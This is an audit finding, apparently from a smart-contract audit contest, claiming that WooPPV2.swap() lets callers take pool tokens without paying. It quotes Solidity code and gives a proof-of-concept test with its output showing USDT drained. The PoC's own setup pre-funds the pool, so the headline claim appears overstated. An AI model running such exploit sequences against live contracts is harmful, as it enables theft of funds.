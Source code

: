 Orbiting Cinnamon Baboon

high

# Tokens can be stolen in WooPPV2.swap()

## Summary
In `WooPPV2`, tokens can be stolen because the pool doesn't transfer tokens from function caller.

## Vulnerability Detail
In `WooPPV2.swap`, the functions checks if the swapped token is quote token or not. If both `tokenIn` and `tokenOut` are non-quote token, [`_swapBaseToBase`](https://github.com/sherlock-audit/2024-03-woofi-swap/blob/main/WooPoolV2/contracts/WooPPV2.sol#L513) is then called.

```solidity
    function swap(
        address fromToken,
        address toToken,
        uint256 fromAmount,
        uint256 minToAmount,
        address to,
        address rebateTo
    ) external override returns (uint256 realToAmount) {
        if (fromToken == quoteToken) {
            // case 1: quoteToken --> baseToken
            realToAmount = _sellQuote(toToken, fromAmount, minToAmount, to, rebateTo);
        } else if (toToken == quoteToken) {
            // case 2: fromToken --> quoteToken
            realToAmount = _sellBase(fromToken, fromAmount, minToAmount, to, rebateTo);
        } else {
            // case 3: fromToken --> toToken (base to base)
            realToAmount = _swapBaseToBase(fromToken, toToken, fromAmount, minToAmount, to, rebateTo);
        }
    }
```

Later in this internal function, after price calculation and other operations, swapped `amountOut` token will be transferred to recipient. But `tokenIn` is never transferred from sender to the pool. Makes any user can steal tokens from the pool.

## Impact
Tokens can be stolen by anyone. In the following code, `user2` swaps BTC with USDT, but user2 never approves the pool to transfer BTC:

```typescript
      it("swapBaseToBase audit test 2", async () => {
        _clearUser2Balance();
  
        await btcToken.approve(wooPP.address, ONE.mul(10));
        await wooPP.deposit(btcToken.address, ONE.mul(10));
  
        await usdtToken.approve(wooPP.address, ONE.mul(300000));
        await wooPP.deposit(usdtToken.address, ONE.mul(300000));
  
        await wooToken.approve(wooPP.address, ONE.mul(1000000));
        await wooPP.deposit(wooToken.address, ONE.mul(1000000));
  
        await btcToken.mint(user1.address, ONE.mul(3));
        await usdtToken.mint(user1.address, ONE.mul(100000));

        const base1Amount = ONE;

        await btcToken.connect(user1).transfer(wooPP.address, base1Amount);


        console.log("user btc balance:", await btcToken.balanceOf(user2.address));
        console.log("user usdt balance:", await usdtToken.balanceOf(user2.address));
        console.log("pool btc balance:", await btcToken.balanceOf(wooPP.address));
        console.log("pool usdt balance:", await usdtToken.balanceOf(wooPP.address));

        await wooPP
            .connect(user2)
            .swap(btcToken.address, usdtToken.address, ONE.div(100), 0, user2.address, ZERO_ADDR);
  
        console.log("user btc balance:", await btcToken.balanceOf(user2.address));
        console.log("user usdt balance:", await usdtToken.balanceOf(user2.address));
        console.log("pool btc balance:", await btcToken.balanceOf(wooPP.address));
        console.log("pool usdt balance:", await usdtToken.balanceOf(wooPP.address));


      });

```

Where user2 starts with no balance in BTC and USDT, and  tries to call swap to swap out some USDT out. The running test result is:

```text
user btc balance: BigNumber { value: "0" }
user usdt balance: BigNumber { value: "0" }
pool btc balance: BigNumber { value: "11000000000000000000" }
pool usdt balance: BigNumber { value: "300000000000000000000000" }
user btc balance: BigNumber { value: "0" }
user usdt balance: BigNumber { value: "199600160040000000000" }
pool btc balance: BigNumber { value: "11000000000000000000" }
pool usdt balance: BigNumber { value: "299800399839960000000000" }
```
And we can see, user2 stole USDT out of the pool.

## Code Snippet
```solidity
    function _swapBaseToBase(
        address baseToken1,
        address baseToken2,
        uint256 base1Amount,
        uint256 minBase2Amount,
        address to,
        address rebateTo
    ) private nonReentrant whenNotPaused returns (uint256 base2Amount) {
        require(baseToken1 != address(0) && baseToken1 != quoteToken, "WooPPV2: !baseToken1");
        require(baseToken2 != address(0) && baseToken2 != quoteToken, "WooPPV2: !baseToken2");
        require(to != address(0), "WooPPV2: !to");

        require(balance(baseToken1) - tokenInfos[baseToken1].reserve >= base1Amount, "WooPPV2: !BASE1_BALANCE");

        // @note what happens when token1 == token2?
        IWooracleV2.State memory state1 = IWooracleV2(wooracle).state(baseToken1);
        IWooracleV2.State memory state2 = IWooracleV2(wooracle).state(baseToken2);

        uint256 swapFee;
        uint256 quoteAmount;
        {
            uint64 spread = _maxUInt64(state1.spread, state2.spread) / 2;
            uint16 feeRate = _maxUInt16(tokenInfos[baseToken1].feeRate, tokenInfos[baseToken2].feeRate);

            state1.spread = spread;
            state2.spread = spread;

            uint256 newBase1Price;
            (quoteAmount, newBase1Price) = _calcQuoteAmountSellBase(baseToken1, base1Amount, state1);
            IWooracleV2(wooracle).postPrice(baseToken1, uint128(newBase1Price));
            console.log('Post new base1 price:', newBase1Price, newBase1Price/1e8);

            swapFee = (quoteAmount * feeRate) / 1e5;
        }

        quoteAmount = quoteAmount - swapFee;
        unclaimedFee = unclaimedFee + swapFee;

        tokenInfos[quoteToken].reserve = uint192(tokenInfos[quoteToken].reserve - swapFee);
        tokenInfos[baseToken1].reserve = uint192(tokenInfos[baseToken1].reserve + base1Amount);

        {
            uint256 newBase2Price;
            (base2Amount, newBase2Price) = _calcBaseAmountSellQuote(baseToken2, quoteAmount, state2);
            IWooracleV2(wooracle).postPrice(baseToken2, uint128(newBase2Price));
            console.log('Post new base2 price:', newBase2Price, newBase2Price/1e8);
            require(base2Amount >= minBase2Amount, "WooPPV2: base2Amount_LT_minBase2Amount");
        }

        tokenInfos[baseToken2].reserve = uint192(tokenInfos[baseToken2].reserve - base2Amount);

        if (to != address(this)) {
            TransferHelper.safeTransfer(baseToken2, to, base2Amount);
        }

        emit WooSwap(
            baseToken1,
            baseToken2,
            base1Amount,
            base2Amount,
            msg.sender,
            to,
            rebateTo,
            quoteAmount + swapFee,
            swapFee
        );
    }

```

## Tool used

Manual Review

## Recommendation
Transfer required amount of `tokenIn` when doing swap.
